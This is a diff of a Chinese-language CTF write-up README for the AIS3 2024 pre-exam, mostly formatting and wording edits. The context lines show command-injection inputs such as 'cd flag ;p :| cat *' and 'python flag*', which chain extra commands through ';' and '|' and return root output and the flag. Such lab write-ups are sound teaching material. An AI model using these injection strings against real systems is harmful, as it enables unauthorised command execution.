

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: AIS3 Pre-exam CTF/2024/README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/AIS3 Pre-exam CTF/2024/README.md
+++ b/AIS3 Pre-exam CTF/2024/README.md
@@ -179,7 +179,9 @@ Connection: close
 
 #### 4. 💿 🚩 😜 😑 🆔 = Command: cd flag ;p :| id
 >uid=0(root) gid=0(root) groups=0(root)
->  :| 可以bypass ;p 多出來的p
+
+> [!TIP]
+> "|" 可以bypass | 前的指令，多出來的 p :
 
 ![image](https://hackmd.io/_uploads/BJUhJKxN0.png)
 #### 5. 💿 🚩 😜 😑 🐱 ⭐ = Command: cd flag ;p :| cat *
@@ -208,7 +210,7 @@ Connection: close
 {"command":"cd flag ;p :| python flag*","result":"AIS3{\ud83e\udef5\ud83e\udea1\ud83c\ude50\ud83e\udd19\ud83e\udd19\ud83e\udd19\ud83d\udc49\ud83d\udc49\ud83d\udea9\ud83d\udc48\ud83d\udc48}\n\n"}
 
 ```
->多餘了
+>想多了\
 >直接複製貼上就可
 
 ### Get FLAG
@@ -219,7 +221,7 @@ Connection: close
 ## Evil Calculator
 ![image](https://hackmd.io/_uploads/rkx0KeJN0.png)
 
-http://chals1.ais3.org:5001
+http://chals1.ais3.org:5001 \
 ![image](https://hackmd.io/_uploads/rknv9l14R.png)
 
 ### Evil Calculator Solution
````
Also changed, not shown: other parts of AIS3 Pre-exam CTF/2024/README.md (+11 -11 lines).
